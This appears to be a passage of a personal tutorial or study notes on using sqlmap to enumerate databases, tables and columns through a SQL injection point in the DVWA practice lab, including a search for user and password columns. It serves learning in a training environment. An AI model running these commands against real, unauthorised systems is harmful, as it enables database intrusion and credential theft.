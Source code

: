 ```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --dbs
```

#### 2.2.2 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --search -D dvwa -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -D dvwa --tables
```

- Count number of tables

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -D dvwa --tables --count
```

#### 2.2.3 - Columns Enumeration

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent -D dvwa -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --statements
```

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --comments
```

## References

- [SQLmap Read File on the Server](https://rioasmara.com/2020/05/25/sqlmap-read-file-on-the-server/)